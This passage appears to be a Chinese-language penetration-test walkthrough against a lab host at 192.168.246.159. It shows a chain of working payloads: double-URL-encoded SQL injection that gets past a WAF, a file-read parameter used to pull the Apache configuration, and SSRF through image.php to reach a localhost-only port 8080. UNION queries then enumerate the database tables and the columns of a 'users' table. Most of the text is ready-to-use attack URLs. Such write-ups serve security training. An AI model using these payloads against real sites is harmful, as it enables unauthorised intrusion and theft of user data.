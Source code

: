 尝试闭合

![](https://mmbiz.qpic.cn/mmbiz_png/v6ap3LYR6wic2jrLxgjNpgsIJsic7f11Hfrm5IEHhB4VTSJqtOLQLD9VMuQHiabKAAQdto7wibSk3xRibtt42ib82V6w/640?wx_fmt=png)

编码绕过，发现二次 url 编码绕过 waf 检测

![](https://mmbiz.qpic.cn/mmbiz_png/v6ap3LYR6wic2jrLxgjNpgsIJsic7f11HfdTXrLqD3sOSdBsI7Br4W2FQCzWbuq4EA7XRQgEBBLHmxHYWDeic8m5A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/v6ap3LYR6wic2jrLxgjNpgsIJsic7f11HfTvJL54qb6mDFPhVMgYWZCdjgYqCGPnNt1oMEXeAII0K8e9feol5oZQ/640?wx_fmt=png)

绕过 waf 后，直接请求以下链接是没有回显的，

http://192.168.246.159/checkpromo.php?promocode=aa%2527%2520order%2520by%25202%2523

那为什么没有回显，后面看了下 apache 的配置文件发现网站在 8080 端口，只允许本地访问

http://192.168.246.159/image.php?src=/etc/apache2/sites-available/default

注入 POC：

1' order by 2#

http://192.168.246.159/image.php?src=http://127.0.0.1:8080/checkpromo.php?promocode=1%2527%2520order%2520by%25202%2523

![](https://mmbiz.qpic.cn/mmbiz_png/v6ap3LYR6wic2jrLxgjNpgsIJsic7f11HfVJgqFH5bEXZzRBukyiagpGQ1wwbgoUKOeiad5BpiaOqEgsTibKt9Uibibzjw/640?wx_fmt=png)

1' order by 2#

http://192.168.246.159/image.php?src=http://127.0.0.1:8080/checkpromo.php?promocode=1%2527%2520order%2520by%25203%2523

![](https://mmbiz.qpic.cn/mmbiz_png/v6ap3LYR6wic2jrLxgjNpgsIJsic7f11HfLLyp5I2f2dGe4nUic6vk0sWCIADxB9GdXtIFfJiaft9Mveoh1NX3zWPQ/640?wx_fmt=png)

1' union select 1,2#

http://192.168.246.159/image.php?src=http://127.0.0.1:8080/checkpromo.php?promocode=1%2527%2520union%2520select%25201%252C2%2523

![](https://mmbiz.qpic.cn/mmbiz_png/v6ap3LYR6wic2jrLxgjNpgsIJsic7f11HfbQIoNKQaw4IKJ728MsuPdKLGQacAQEsD4ju6zoMPnsjTjTbBjfSMXw/640?wx_fmt=png)

回显位置找到 ，查表

1' union select (select group_concat(table_name) from information_schema.tables where table_schema=database()),2#

http://192.168.246.159/image.php?src=http://127.0.0.1:8080/checkpromo.php?promocode=1%2527%2520union%2520select%2520%2528select%2520group_concat%2528table_name%2529%2520from%2520information_schema.tables%2520where%2520table_schema%253Ddatabase%2528%2529%2529%252C2%2523

![](https://mmbiz.qpic.cn/mmbiz_png/v6ap3LYR6wic2jrLxgjNpgsIJsic7f11Hf1ha4QkJUqibRdaNwryUr05tJiaGNhPWCqYycuE9M3xtM8icuE61qlyatw/640?wx_fmt=png)

1' union select (select group_concat(column_name) from information_schema.columns where table_name='users'),2#

http://192.168.246.159/image.php?src=http://127.0.0.1:8080/checkpromo.php?promocode=1%2527%2520union%2520select%2520%2528select%2520group_concat%2528column_name%2529%2520from%2520information_schema.columns%2520where%2520table_name%253D%2527users%2527%2529%252C2%2523
